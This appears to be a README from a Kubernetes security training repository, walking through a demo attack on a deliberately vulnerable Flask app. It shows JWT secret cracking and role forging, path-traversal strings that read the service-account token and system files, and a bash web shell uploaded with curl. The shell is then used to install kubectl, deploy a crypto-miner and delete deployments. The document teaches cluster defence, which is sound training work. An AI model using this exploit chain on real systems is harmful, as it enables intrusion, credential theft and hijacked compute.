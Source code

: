 # Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.

---
![K8s threat matrix](../static/03-k8s-matrix.png)
*Kubernetes threat matrix for the demo attack below*

---

## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

1. deploy [./vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)

2. explore the images service: [http://images.vulnerable-app.seck8s.slurm.io](http://images.vulnerable-app.seck8s.slurm.io), [http://images.vulnerable-app.seck8s.slurm.io?token=foo](http://images.vulnerable-app.seck8s.slurm.io?token=foo):
[![Images-api forbidden](../static/03-application-security/01-images-api.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m31s)

3. explore the auth service: [http://auth.vulnerable-app.seck8s.slurm.io/](http://auth.vulnerable-app.seck8s.slurm.io/), sign-up a user:
[![Auth-api signup](../static/03-application-security/02-auth-api-signup.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m56s)

4. login with the newly created user and be redirected to the images service:
[![Images-api user account](../static/03-application-security/03-images-api-jwt.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=50m14s)

5. side note: it is insecure to pass sensitive information in GET parameters, see how it gets logged to stdout by Flask: [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api/logs)

---

6. copy the JWT token, explore it in [jwt.io](https://jwt.io/):
    - architecture issue: symmetric algorithm (HS256 not RS256) => both services (the one that generates and another that checks the token) use the same secret and therefore *both can issue a new JWT*

7. crack or leak the secret `secret123`:
    - leaked through the K8s configuration (secret mount to the env var `SECRET_KEY` is hard-coded in the manifest): [dashboard auth-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/auth-api), [dashboard images-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api)
    - since the manifests are version-controlled, can be found in the Git commit history (`git blame`): [github link](https://github.com/Slurmio/webinar-seck8s/blob/98bab96647708ab5368b5b51ccdf96dd2071894e/03-application-security/vulnerable-app/images-api/deploy/images-api.yaml#L22) (*vulnerability: [Hard-Coded Credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*. Remember: source code is not secret!)
    - the secret is weak therefore very easy to crack - in minutes with the tool [lmammino/jwt-cracker](https://github.com/lmammino/jwt-cracker) (*vulnerability: Weak Secret*)

8. escalate provileges by changing the `"role": "user"` to `"role": "admin"` in the JWT payload (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
    [![Cracked jwt token](../static/03-application-security/04-jwt-cracked.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m09s)

9. proceed to `images-api` with the new token, see the admin page
    [![Images-api admin](../static/03-application-security/05-images-admin.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m20s)

---

10. read some files from the pod: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` (pod service account's token and certificate), `../app.py` (source code of the Flask app), `../../../../../../etc/shadow/proc/1/environ` (pod environment variables), etc. (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)* + too high privileges as the pod is running as `root` in the container)
[![LFI read SA certificate](../static/03-application-security/06-var-run-kubernetes-crt.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m44s)
[![LFI read SA certificate: base64-encoded](../static/03-application-security/07-var-run-kubernetes-crt-base64enc.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m45s)
[![LFI read SA certificate: base64-decoded](../static/03-application-security/08-var-run-kubernetes-crt-base64dec.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m56s)

> Note: by now, we acquired the service account credentials to the cluster. If we know the external Kube API address (if it's exposed), then we have the remote kubectl access:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`

> However, Kube API is not always exposed, so let's try to get kubectl working from the pod itself.

---

11. upload the new Flask file to `../app.py` with the backdoor activated via GET parameter `cmd` (*vulnerability: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)* -- the attacker can upload file to an arbitrary directory):
    - construct the payload ([payloads/app.py](payloads/app.py)):
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    - upload the payload via `curl`:
    ```sh
    TOKEN=<your token>
    curl -vv -o /tmp/out.html -F "file=@payloads/app.py; filename=../app.py" "http://images.vulnerable-app.seck8s.slurm.io/?token=$TOKEN"
    ```
    [![UFU upload shell](../static/03-application-security/09-file-upload.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=57m12s)

    - try again [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get the backdoor shell
    [![Use shell: ls](../static/03-application-security/10-shell-ls.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=57m29s)

    - since the server is in Debug mode, it auto-reloads without restarting the pod

12. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
    - `kubectl get all`
    - install curl: `apt-get update`, `apt-get -y install curl`
    - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
        - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
        - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
    - `kubectl get all`
    [![Use shell: kubectl](../static/03-application-security/11-shell-kubectl.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=58m42s)

13. note, the pod's SA has only permissions on Deployments -- it's done by mistake by another developer who accidentally gave extra permissions to the default service account in the namespace `vulnerable-app` (see [vulnerable-app/another-app/deploy/rbac.yaml](vulnerable-app/another-app/deploy/rbac.yaml))

14. now, let's deploy a miner:
    - use the web form [http://images.vulnerable-app.seck8s.slurm.io/?token=...](http://images.vulnerable-app.seck8s.slurm.io/?token=...) to upload the miner's manifest [payloads/monero-deployment.yaml](payloads/monero-deployment.yaml) (note: you need to use the admin JWT token again)
    - use the backdoor to: `kubectl apply -f images/monero-deployment.yaml`
    [![Use shell: run miner](../static/03-application-security/12-shell-miner.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=1h00m36s)


15. or shut down the cluster's payload (Deployment only, permitted by RBAC): `kubectl delete deployment auth-api`
    [![Use shell: denial-of-service](../static/03-application-security/13-shell-dos.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=1h01m11s)

16. cleanup:
    ```sh
    cd vulnerable-app
    k delete -f another-app/deploy
    k -n vulnerable-app delete -f images-api/deploy
    k -n vulnerable-app delete -f auth-api/deploy
    k delete ns vulnerable-app
    cd ../../02-exposed-dashboard/
    k -n exposed-dashboard delete -f kube-web-view/deploy
    k -n exposed-dashboard delete -f kube-web-view/deploy-ingress
    ```

## Takeaways
- Application vulnerabilities are common attack entrypoints, see [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- Try to minimize the attacker's capabilities (use minimal images as alpine, don't run containers as root, note the sensitive information to be hard-coded, minimize privileges of the service accounts, etc)
